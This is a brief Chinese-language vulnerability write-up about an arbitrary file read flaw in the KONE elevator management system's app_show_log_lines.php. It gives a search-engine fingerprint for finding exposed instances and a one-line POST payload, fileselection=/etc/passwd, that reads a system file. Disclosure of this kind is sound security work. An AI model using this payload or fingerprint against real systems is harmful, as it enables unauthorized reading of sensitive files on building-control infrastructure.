 # KONE 通力电梯管理系统 app_show_log_lines.php 任意文件读取漏洞

# KONE 通力电梯管理系统 app_show_log_lines.php 任意文件读取漏洞

## 漏洞描述

KONE 通力电梯 app_show_log_lines.php文件过滤不足导致任意文件读取漏洞

## 漏洞影响

```
KONE 通力电梯管理系统
```

## 网络测绘

```
"KONE Configuration management"
```

## 漏洞复现

主页面

![image-20220519184439370](/images/202205191844461.png)

发送POST请求包

```
fileselection=/etc/passwd
```

![image-20220519184600379](/images/202205191846469.png)

